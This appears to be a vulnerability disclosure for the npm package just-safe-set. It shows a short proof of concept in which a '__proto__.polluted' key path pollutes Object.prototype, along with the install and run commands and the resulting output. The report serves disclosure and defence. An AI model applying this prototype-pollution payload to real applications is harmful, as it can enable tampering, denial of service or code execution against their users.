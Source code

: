 # Description

`just-safe-set` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const set = require('just-safe-set');
const obj = {};
console.log("Before : " + {}.polluted);
set(obj, '__proto__.polluted', "Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i just-safe-set # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
